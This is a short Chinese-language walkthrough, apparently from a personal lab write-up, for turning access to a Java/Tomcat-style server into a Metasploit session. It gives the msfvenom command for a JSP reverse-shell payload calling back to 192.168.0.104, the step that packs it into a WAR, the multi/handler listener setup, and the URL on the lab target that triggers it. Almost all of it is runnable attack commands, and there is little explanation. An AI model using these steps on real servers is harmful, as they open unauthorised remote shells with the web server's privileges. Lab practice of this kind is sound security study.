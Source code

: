 ### 权限转到msf

msf 生成 jsp：

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.0.104 LPORT=6688 -f raw > m.jsp
```

打包成 war ：

```bash
jar -cvf m.war m.jsp
```

msf 监听：

```bash
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload java/jsp_shell_reverse_tcp
payload => java/jsp_shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 6688
lport => 6688
msf6 exploit(multi/handler) > set shell cmd.exe
shell => cmd.exe
msf6 exploit(multi/handler) > ex
exit     exploit  
msf6 exploit(multi/handler) > exploit 
```

触发：

```http
http://192.168.0.102:8080/m/m.jsp
```

得到高权限，jsp 网站就是高权限，脚本的特性

<img src=".\图片\Snipaste_2023-05-11_18-41-21.png" alt="Snipaste_2023-05-11_18-41-21" style="zoom:80%;" />
